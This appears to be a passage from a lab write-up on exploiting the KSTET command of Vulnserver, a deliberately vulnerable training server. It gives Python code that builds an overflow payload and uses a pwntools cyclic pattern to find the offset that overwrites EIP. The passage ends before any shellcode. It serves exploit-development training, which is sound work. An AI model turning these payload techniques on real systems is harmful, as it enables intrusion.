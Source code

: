 ```python
def make_payload():
    prepend = b"KSTET /.:/"
    buf =  b""
    pattern = b"A"*100
    payload_struct = buf + pattern
    final_payload = prepend + payload_struct 
    return final_payload
```

This is enough to smash the EIP as can be seen below:

![image-20200423055222157](/assets/images/vulnserver/KSTET/KSTETimage-20200423055222157.png)

### Exploitation

As per the last posts, we can use pwntools cyclic tools to narrow down the EIP. The only differance is the size of the cyclic buffer we need.

Drop in to the REPL and run:

```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

Pop this into the payload like so:

```python
def make_payload():
    prepend = b"KSTET /.:/"
    buf =  b""
    pattern = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
    payload_struct = buf + pattern
    final_payload = prepend + payload_struct 
    return final_payload
```

On running this we can see the EIP is now smashed with "61726161":

![image-20200423055911312](/assets/images/vulnserver/KSTET/image-20200423055911312.png)
